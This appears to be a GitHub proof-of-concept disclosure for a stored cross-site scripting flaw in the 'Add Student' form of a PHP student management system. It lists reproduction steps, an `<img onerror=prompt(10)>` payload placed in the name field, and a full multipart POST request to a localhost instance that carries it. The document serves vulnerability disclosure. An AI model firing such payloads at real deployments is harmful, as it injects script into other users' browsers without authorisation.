 # sms-Add_Student-Stored_XSS-POC
Description => Stored_XSS at `Add Student`
# Step to Reproduct
* Login to admin -> `Students` -> `Add Student` -> input payload `<img/src/onerror=prompt(10)>` at `Enter Name`
# Exploit
![image](https://user-images.githubusercontent.com/79050415/158715096-7fe6c540-b7cb-4293-b60f-f0e16b6d445c.png)
* Input payload at `Enter Name` -> clicked `Add Students` -> access `All Student` -> The XSS will trigger
![image](https://user-images.githubusercontent.com/79050415/158715379-451cbe16-2f5b-4772-bf1a-e6e0c3d05aa4.png)
* Log out admin and typed `roll number` -> The XSS will trigger
* ![image](https://user-images.githubusercontent.com/79050415/158715734-d68d1fbf-ebef-4f7e-b62e-038c45056d1a.png)
![image](https://user-images.githubusercontent.com/79050415/158715881-a348606b-94fe-4a2a-abf9-9fa5c719f14e.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/158716291-52718f20-b719-44ef-a9ca-21b00e82b2de.png)
* When inserting into the database, the input is not filtered out bad characters
# POC 
* `Injection Point` 
```c
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="name"

<img/src/onerror=prompt(10)>
```
* `Request`
```c
POST /sms/admin/addstudent.php HTTP/1.1
Host: localhost:8080
Content-Length: 992
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAvKt9LM2RnnkuA0K
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/sms/admin/addstudent.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=p440fhd7svqid5f063i3epg29k
Connection: close

------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="image"; filename="car.png"
Content-Type: application/octet-stream


------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="rollno"

1234567
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="name"

<img/src/onerror=prompt(10)>
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="contact"

123456
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="standerd"

1
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="city"

Newyork
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="email"

haha@gmail.com
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="gender"

male
------WebKitFormBoundaryAvKt9LM2RnnkuA0K
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryAvKt9LM2RnnkuA0K--

```
`POC VIDEO` https://drive.google.com/file/d/1PLRmIi7EBMAXkLMUhUy09PVph1CW6otF/view?usp=sharing



